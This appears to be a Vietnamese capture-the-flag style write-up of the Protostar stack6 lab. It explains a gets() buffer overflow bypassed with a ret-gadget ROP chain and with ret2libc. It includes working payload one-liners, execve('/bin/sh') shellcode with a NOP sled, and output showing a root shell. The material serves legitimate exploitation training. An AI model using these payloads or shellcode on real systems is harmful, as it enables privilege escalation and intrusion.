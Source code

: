 ```yaml
---
layout: post
title: stack6
---
```

Trong bài trước, chúng ta đã học cách inject code và điều hướng chương trình để đoạn code này được thực thi.
Bài này sẽ nâng độ khó lên một chút bằng cách giới hạn giá trị `eip` của caller.
Hãy cùng xem source code và asm code của chương trình như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
```asm
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
0x080484fa <main+0>:    push   ebp
0x080484fb <main+1>:    mov    ebp,esp
0x080484fd <main+3>:    and    esp,0xfffffff0
0x08048500 <main+6>:    call   0x8048484 <getpath>
0x08048505 <main+11>:   mov    esp,ebp
0x08048507 <main+13>:   pop    ebp
0x08048508 <main+14>:   ret

```
Hàm `getpath` không cho phép `eip` của caller có dạng `0xbf??????`, tương đương với địa chỉ của bộ nhớ stack.
Do vậy, kỹ thuật của bài trước sẽ cần phải thay đổi.

Về cơ bản, đoạn code inject vào chương trình được lưu trong stack.
Do vậy, chúng ta vẫn sẽ cần điều hướng chương trình đến bộ nhớ này.
Để làm được điều này, ta sẽ dùng một kỹ thuật có tên "Return-Oriented Programming" (ROP).
Mục tiêu của kỹ thuật này là điều hướng chương trình đến nhưng đoạn code có sẵn nằm trong vùng cho phép thực thi (ví dụ trong vùng .text của asm, và không phải trên stack).
Việc điều hướng có thể được thực hiện nhiều lần có tính toán, khiến chương trình thực thi một chuỗi lệnh.

Sau đây là một ví dụ của ROP.
Chúng ta sẽ thực hiện overflow cho `buffer` như bài trước để inject code và ghi đè `eip` của caller.
Lần này chúng ta sẽ điều hướng `eip` đến một lệnh `ret` bất kỳ có sẵn trong chương trình chính.
Khi lệnh `ret` này được thực thi, giá trị tại `esp` sẽ được `pop` sang `eip`.
Dựa vào dự đoán này, ta sẽ ghi đè thêm 4 byte ngay sau `eip` mới.
4 byte này chính là địa chỉ của đoạn code đã được inject.
Nó có thể nằm trên stack.
```bash
python -c "print '\xcc' * 64 + '\xcc' * 4 + '\xcc' * 8 + '\xcc' * 4 + '\xf9\x84\x04\x08' + '\x6c\xf7\xff\xbf'" > input.txt
```
Đoạn script trên ghi đè lên 64 byte giá trị `buffer`, 4 byte giá trị biến `ret`, 8 byte padding, 4 byte `eip` mới của caller, và 4 byte địa chỉ injected code.
Sau đây là bộ nhớ trước và sau `gets`.
Phân biệt <span style="color:aqua">buffer</span>, <span style="color:orangered">eip mới của caller</span>, và <span style="color:springgreen">địa chỉ điều hướng về injected code</span>.
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xb7f0186e</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080496ec</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x0804835c</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080496ec</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048539</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048520</span>      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0xbffff7a8      <span style="color:orangered">0x08048505</span>
0xbffff7a0:     0x08048520      0x00000000      0xbffff828      0xb7eadc76
</pre>
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xcccccccc</span>
0xbffff750:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      <span style="color:orangered">0x080484f9</span>
0xbffff7a0:     <span style="color:springgreen">0xbffff76c</span>      0x00000000      0xbffff828      0xb7eadc76
</pre>
Chương trình sẽ chạy bình thường cho đến lệnh `ret` của hàm `getpath`.
Sau đó, chương trình sẽ được điều hướng đến lệnh `ret` của `getpath` một lần nữa.
Địa chỉ của đoạn injected code lúc này được `pop` vào `eip` và đoạn code này được thực thi.
Sau đây là chuỗi chương trình được ghép lại để bạn dễ hình dung.
<pre class="memory">
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
...
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
<span style="color:orangered">0x080484f9 <getpath+117>:       ret</span>
<span style="color:springgreen">0xbffff76c:                     int3</span>
</pre>
Lưu ý, đoạn injected code trong ví dụ chỉ là trap breakpoint.
Chúng ta có thể sử dụng shellcode và NOP-sled như phần tham khảo cuối bài.

Ngoài ROP, chúng ta cũng có thể sử dụng 1 phương pháp khác có tên ret2libc.
Phương pháp này có thể dùng để chống lại các phương thức bảo mật cao hơn như cấm thực thi lệnh lưu ngoài vùng cho phép.
Sau đây là ví dụ sử dụng hàm `system` trong libc để chạy các chương trình khác.
Để tìm ra địa chỉ của `system`, ta có thể chạy lệnh print trong gdb:

```bash
(gdb) b main
(gdb) run < input.txt
(gdb) print system
```
Hàm `system` cần thêm tham số là pointer đến chuỗi ký tự lệnh.
Ví dụ, nếu muốn chạy "/bin/sh", ta cần cung cấp địa chỉ của chuỗi này cho hàm `system`.
Để tìm được địa chỉ chuỗi này, ta có thể dùng lệnh bash sau:
```bash
strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
```
Kết quả trả về sẽ bao gồm offset của chuỗi, `0x11f3bf`, so với địa chỉ của libc khi chương trình stack6 được chạy.
Muốn tìm địa chỉ của libc khi process đang chạy, hãy dùng lệnh sau trong gdb:
```bash
(gdb) info proc map
```
Ta nhận được địa chỉ của libc nằm tại `0xb7e97000`.
Kết hợp offset và địa chỉ, chuỗi "/bin/sh" có thể tìm thấy tại `0xb7fb63bf`.
Sau cùng, giá trị `buffer` để làm tràn và exploit chương trình sẽ như sau:
```bash
python -c "print '\xcc' * 80 + '\xb0\xff\xec\xb7' + 'AAAA' + '\xbf\x63\xfb\xb7'" > input.txt
```
Giá trị này bao gồm 80 byte chung cho `buffer`, biến `ret`, `padding`, và `ebp` của caller.
4 byte tiếp theo dành cho `eip` mới của caller, sẽ chỉ đến hàm `system`.
4 byte tiếp theo là `eip` của hàm gọi hàm `system`, cụ thể trong ví dụ này chính là hàm `getpath`.
Tuy nhiên, chúng ta cũng không cần quan tâm giá trị này vì mục đích chính là exploit chương trình.
4 byte cuối là tham số cho hàm `system` và chính là địa chỉ của chuỗi có sẵn "/bin/sh".
Bộ nhớ sau `gets` sẽ như sau.
Phân biệt <span style="color:aqua">buffer</span>, <span style="color:orangered">eip mới của caller (địa chỉ libc system)</span>, <span style="color:yellow">eip sau khi return từ system</span>, và <span style="color:springgreen">tham số của system (địa chỉ của "/bin/sh")</span>.
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xcccccccc</span>
0xbffff750:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      <span style="color:orangered">0xb7ecffb0</span>
0xbffff7a0:     <span style="color:yellow">0x41414141</span>      <span style="color:springgreen">0xb7fb63bf</span>      0xbffff800      0xb7eadc76
</pre>

## Ref
```bash
user@protostar:~$ python -c "print 'ABC\x00' + '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xf9\x84\x04\x08' + '\x70\xf7\xff\xbf'" > input.txt
user@protostar:~$ (cat input.txt; cat) | stack6
input path please: got path ABC
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
```bash
user@protostar:~$ python -c "print 'ABCD' + '\x00' * 76 + '\xb0\xff\xec\xb7' + 'AAAA' + '\xbf\x63\xfb\xb7'" > input.txt
user@protostar:~$ (cat input.txt; cat) | stack6
input path please: got path ABCD
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

Segmentation fault
```
```bash
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run < input.txt
Starting program: /opt/protostar/bin/stack6 < input.txt

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```
```bash
(gdb) info proc map
process 11046
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```
```bash
user@protostar:~$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```
